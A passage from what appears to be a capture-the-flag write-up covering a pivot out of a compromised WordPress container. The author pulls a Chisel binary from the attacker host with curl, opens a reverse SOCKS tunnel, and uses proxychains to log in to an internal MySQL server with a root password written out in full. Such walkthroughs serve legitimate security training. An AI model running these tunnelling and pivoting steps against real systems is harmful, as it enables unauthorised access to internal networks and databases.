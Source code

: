 #### MySQL

I want to check out the database, and I’ve got creds to it from above. Unfortunately, I don’t have any good tools in this container to query it. I could use PHP, but I’ll tunnel it instead with [Chisel](https://github.com/jpillora/chisel). I’ll upload the binary to the wordpress container with `curl`, one of the few programs here:

```

www-data@wordpress:/tmp$ curl -s 10.10.14.6/chisel_1.7.6_linux_amd64 -o c

```

I’ll work out of `/tmp` as `dev/shm` is mounted noexec. I’ll start it as a server server on my client:

```

oxdf@hacky$ ./chisel_1.7.6_linux_amd64 server -p 8000 --reverse
2021/10/08 15:37:11 server: Reverse tunnelling enabled
2021/10/08 15:37:11 server: Fingerprint N52pbJIIK/5bKBt+7XNYJZrb3MPo7gLjp2cYCIwG6CM=
2021/10/08 15:37:11 server: Listening on http://0.0.0.0:8000

```

Now I’ll connect the client:

```

www-data@wordpress:/tmp$ ./c client 10.10.14.6:8000 R:socks
2021/10/08 19:38:44 client: Connecting to ws://10.10.14.6:8000
2021/10/08 19:38:45 client: Connected (Latency 88.955517ms

```

`R:socks` tells Chisel to allow for me to do a reverse Socks proxy from the server through the client. The connection shows up at the server as well:

```

2021/10/08 15:38:44 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

I’ll make sure my `/etc/proxychains.conf` file has a SOCKS5 proxy through 1080:

```

[ProxyList]
socks5  127.0.0.1 1080

```

Now I can connect:

```

oxdf@hacky$ proxychains mysql -h 172.69.0.102 -u root -pOnlyTheBestSecretsGoInShellScripts
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:3306-<><>-OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1083
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>

```